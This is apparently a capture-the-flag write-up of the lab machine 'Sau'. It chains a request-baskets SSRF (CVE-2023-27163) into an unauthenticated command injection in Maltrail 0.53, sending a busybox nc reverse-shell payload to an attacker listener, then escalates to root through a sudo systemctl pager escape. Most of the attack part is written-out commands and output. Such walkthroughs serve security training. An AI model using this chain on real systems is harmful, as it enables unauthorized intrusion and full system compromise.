

Sau

Recon
Starting with nmap. SSH is on 22, port 80 is filtered from the outside, and the only other thing reachable is an unknown service on 55555 that redirects to /web. The 400 response leaks a basket-name regex, which is the fingerprint of request-baskets.
[sau] nmap -Pn -v -T5 --min-rate 2000 -oN nmap -sSVC -p- 10.129.229.26
Nmap scan report for 10.129.229.26
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp filtered http
55555/tcp open unknown
| fingerprint-strings:
| FourOhFourRequest:
| invalid basket name; the name does not match pattern: ^[\w\d\-_\.]{1,250}$
| GetRequest:
| HTTP/1.0 302 Found
|_ Location: /web
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe web UI on 55555 confirms it is request-baskets 1.2.1, a service for creating throwaway HTTP endpoints ("baskets") that capture or forward requests.
Exploitation
request-baskets up to 1.2.1 is vulnerable to CVE-2023-27163, a server-side request forgery. A basket's forward_url is fetched by the server, and with proxy_response and expand_path set the server relays the full response back to us, turning the basket into an open proxy into the host's internal network. That is exactly what is needed to reach the filtered port 80.
I used entr0pie's PoC (CVE-2023-27163.sh), which creates a proxy basket pointing at an internal target. Aiming it at http://127.0.0.1:80/ and requesting the basket reveals what is behind the filtered port 80, Maltrail 0.53:
[sau] ./exploit.sh http://10.129.229.26:55555/ http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
> Creating the "lfvpis" proxy basket...
> Basket created!
> Accessing http://10.129.229.26:55555/lfvpis now makes the server request to http://127.0.0.1:80/.
> Authorization: Wh7AlrpwHwouEKCIjtiO6_EyLmTtNVLYW7eooRXbA7IEMaltrail 0.53 has an unauthenticated OS command injection in its login handler: the username parameter is passed into a shell command (a logger call) without sanitisation, so a ;$(...) payload runs commands. Chaining it through the SSRF proxy reaches the internal login endpoint and injects a busybox nc reverse shell:
[sau] curl 'http://10.129.229.26:55555/lfvpis/login' --data 'username=;$(busybox nc 10.10.15.208 35337 -e sh)'[sau] nc -lnvp 35337
Listening on 0.0.0.0 35337
Connection received on 10.129.229.26 39508
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)That is a foothold as puma, the account running Maltrail, and the user flag is in its home directory.
Privilege Escalation
Checking sudo rights for puma shows one very specific allowed command:
puma@sau:~$ sudo -l
User puma may run the following commands on sau:
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.servicesystemctl status pipes its output through a pager (less) when the output does not fit the terminal, and because we run it under sudo that pager runs as root. Pagers let you shell out with !, so if we can execute systemctl status as root we can spawn another shell straight from the pager (intrusionz3r0, sudo systemctl). Run the allowed command, and at the pager prompt spawn a shell:
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
Loaded: loaded (/etc/systemd/system/trail.service; enabled; ...)
Active: active (running) ...
!sh
# id
uid=0(root) gid=0(root) groups=0(root)If the terminal is large enough that the output is not paged, shrinking the window first (or piping is disabled) forces the pager to open. From the root shell it is just reading /root/root.txt.